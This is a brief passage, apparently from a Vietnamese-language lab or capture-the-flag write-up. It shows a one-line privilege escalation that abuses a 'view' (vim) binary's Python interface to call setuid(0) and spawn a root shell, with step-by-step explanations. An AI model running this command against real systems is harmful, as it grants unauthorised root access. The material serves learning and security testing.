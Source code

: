         ![image.png](image%209.png)
        
        ```bash
        /home/ubuntu/view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
        ```
        
        → `os.setuid(0)`  Thay đổi UID của tiến trình thành **0** (UID của người dùng **root**). 
        
        → `os.execl("/bin/sh", "sh", "-c", "reset; exec sh")` Giúp thay thế tiến trình hiện tại bằng một phiên shell tương tác (sh), cung cấp quyền root cho người dùng.
        
        → `reset` và `exec sh` sẽ giúp khởi chạy 1 shell mới
        
        ![image.png](image%2010.png)
        
